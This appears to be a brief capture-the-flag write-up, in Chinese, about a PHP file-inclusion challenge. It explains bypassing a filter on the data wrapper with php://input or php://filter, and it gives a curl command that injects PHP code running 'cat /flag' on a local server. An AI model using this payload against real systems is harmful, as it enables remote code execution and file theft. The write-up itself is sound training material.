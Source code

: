 ![](<./img/Pasted image 20241026210635.png>)

过滤了`data`伪协议，用`php://input`或者`php://filter`构造内容绕过即可，注意php标签

```shell
curl -s 'localhost:8080?file=php://input' --data-raw 'Plastic chair<?php system("cat /flag");' | grep Spirit
```

![](<./img/Pasted image 20241026210831.png>)